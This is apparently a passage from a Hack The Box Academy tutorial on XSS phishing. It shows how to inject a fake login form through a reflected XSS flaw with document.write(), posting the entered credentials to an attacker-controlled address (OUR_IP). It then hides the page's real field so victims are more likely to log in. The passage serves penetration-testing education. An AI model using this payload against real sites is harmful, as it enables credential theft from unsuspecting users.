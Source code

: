 In the above HTML code,`OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under`tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function`document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the`write` function, the final JavaScript code should be as follows:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the`alert(window.origin)` JavaScript Code). In this case, we are exploiting a`Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the`Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

---

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function`document.getElementById().remove()` function.

To find the`id` of the HTML element we want to remove, we can open the`Page Inspector Picker` by clicking [`CTRL+SHIFT+C`] and then clicking on the element we need: ![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)

As we see in both the source code and the hover text, the`url` form has the id`urlform`:

Code: html

```html
<form role="form" action="index.php" method="GET" id='urlform'>
 <input type="text" placeholder="Image URL" name="url">
</form>
```
